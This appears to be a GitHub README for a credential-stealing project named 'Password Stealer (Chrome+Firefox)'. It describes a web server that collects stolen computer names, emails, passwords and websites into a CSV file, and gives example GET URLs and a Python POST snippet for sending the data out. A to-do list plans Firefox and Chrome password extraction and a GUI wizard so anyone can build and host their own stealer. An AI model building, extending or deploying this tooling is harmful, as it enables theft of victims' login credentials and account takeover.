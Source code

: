 # Password Stealer (Chrome+Firefox)

# Web Server

### What is this -
- This is an easily hostable web server that is possible to store the given data to a `.csv` file.

###  What is the main purpose - 
- This is intended to be used as password stealing web server(backend, the storing part)

## GET
- Example -
```
http://localhost:8090/password?pcname=TEST-MACHINE&email=test@gmail.com&password=helloworld123&website=facebook
```

### Parameters -
- `pcname`
    - the name of the computer, this could be the username or the hardware id
- `email`
    - the email address or username or phone number to login
- `password`
    - the password used to login
- `website`
    - the website where the `email` and the `password` can be used to login


## POST
- Send a post request with the required data to the webserver
- Example(Python) -
```python
import requests
data = {
    "pacname": "TEST-MACHINE",
    "email": "test@gmail.com",
    "password": "helloworld123",
    "website": "facebook"
    }
requests.post("http://localhost:8090/password", data=data)
```

### Data -
- `pcname`
    - the name of the computer, this could be the username or the hardware id
- `email`
    - the email address or username or phone number to login
- `password`
    - the password used to login
- `website`
    - the website where the `email` and the `password` can be used to login

<br>
<br>

---
# To-Do
0. setup FireFox Password Steal with [this script](https://github.com/unode/firefox_decrypt) (make use of this code to do it)
1. Reuse and modify the chrome password stealing function to be used with this
2. Create a MAKER/WIZARD to make our own stealer by entering the link where we host it
3. Make a GUI for the WIZARD making it easy for anyone to create thier own stealer + host it(tk)
4. Make a dashboard for the end user to start the flask server and do other stuff
4. make `index,html` at `/` better 
